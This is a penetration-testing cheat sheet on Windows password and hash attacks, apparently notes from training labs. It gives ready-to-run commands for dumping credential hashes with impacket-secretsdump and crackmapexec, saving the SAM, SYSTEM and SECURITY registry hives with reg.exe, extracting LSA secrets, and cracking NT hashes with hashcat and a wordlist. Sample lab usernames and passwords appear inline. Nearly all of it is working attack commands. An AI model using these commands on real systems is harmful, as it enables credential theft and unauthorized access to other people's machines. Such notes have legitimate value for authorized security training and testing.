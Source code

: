 # Password & Hash Attacks

## Dump Hashes

#### Impacket-Secrets Dump

```bash
impacket-secretsdump backup@spookysec.local # requires password for user
impacket-secretsdump Administrator@10.11.1.1 -hashes 'NTLM:NTLM'
impacket-secretsdump marvel/fcastle:Password1@192.168.183.137
```

#### SAM / SYSTEM / SECURITY Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

Technically we will only need `hklm\sam` & `hklm\system`, but `hklm\security` can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts.

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
reg.exe save hklm\sam C:\sam.save


# Transfer them to our attacking machine and run one of the following
impacket-secretsdump -sam sam -system system -security security LOCAL
impacket-secretsdump -sam sam -system system LOCAL

# Running Hashcat against NT Hashes
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

#### LSA Secrets

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

```shell
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
